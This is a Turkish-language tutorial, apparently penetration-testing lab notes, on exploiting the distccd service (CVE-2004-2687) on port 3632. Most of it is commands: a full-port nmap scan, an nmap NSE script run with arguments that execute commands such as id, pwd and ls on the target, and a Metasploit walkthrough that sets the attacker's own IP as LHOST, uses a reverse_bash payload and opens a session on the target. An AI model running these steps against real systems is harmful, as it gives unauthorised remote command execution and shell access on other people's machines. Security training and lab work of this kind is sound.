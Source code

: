 - Bazen her türlü kombinasyonla yapılan taramalar açık bulmada yetersiz kalabilir.  
- Böyle durumlarda **tüm portlar** taranarak sık kullanılmayan bir portta açık bulunabilir.  

```bash
nmap <target ip> -p- -A
```

- Bu taramada daha fazla açık ortaya çıkabilir.  
- Örneğin: **3632 portunda çalışan distccd**.  
- distccd, C++ kodlarını compile etmede kullanılan bir programdır ve belirli sürümlerinde açık bulunur.  

---

## 📝 Script ile Exploit Etmek

- İnternette araştırıldığında bu açık için hazırlanmış bir **Nmap NSE scripti** olduğu görülür.  
- Örneğin:

```bash
nmap -p 3632 <target ip> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'"
```

- Bu komut hedef sunucunun terminaline erişim sağlar.  
- `id` yerine istediğimiz komutu verebiliriz. Örnekler:  

```bash
nmap -p 3632 <target ip> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='pwd'"
nmap -p 3632 <target ip> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='ls'"
```

---

## 💣 Metasploit Modülü ile Exploit Etmek

- distccd açığı için **Metasploit modülü** de mevcuttur.  
- Bunun için:  

```bash
msfconsole
search distcc
use <modül adı>
show options
set RHOSTS <target ip>
set RPORT 3632
set LHOST <kendi ip>
exploit -j -z
```

- Eğer saldırı başarısız olursa genelde sebep:  
  ```
  no payload configured, defaulting to cmd/unix/reverse_bash
  ```
  uyarısıdır.  

- Bu durumda alternatif payload denenir:  

```bash
show payloads
set payload <seçilen payload>
exploit -j -z
```

- Saldırı başarılı olursa:  

```bash
sessions -l
sessions 1
```

- Artık hedef makineye erişim sağlanmış olur ✅
